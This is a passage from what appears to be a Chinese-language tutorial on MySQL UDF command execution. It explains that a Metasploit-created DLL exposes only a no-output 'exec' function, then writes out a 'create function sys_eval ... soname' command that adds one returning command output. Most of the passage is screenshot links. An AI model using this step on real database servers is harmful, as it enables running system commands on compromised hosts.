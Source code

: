 然后再看创建的func

![image-20220321190212383](images/17.png)

这里的dll文件的名称是msf随机的，但是值创建了exec函数，这个函数是没有回显的

![image-20220321190348147](images/18.png)

所以我们再创建一个有回显的sys_eval

```
create function sys_eval returns string soname 'fnZwwVdE.dll';
```

![image-20220321190548678](images/19.png)

![image-20220321190608455](images/20.png)
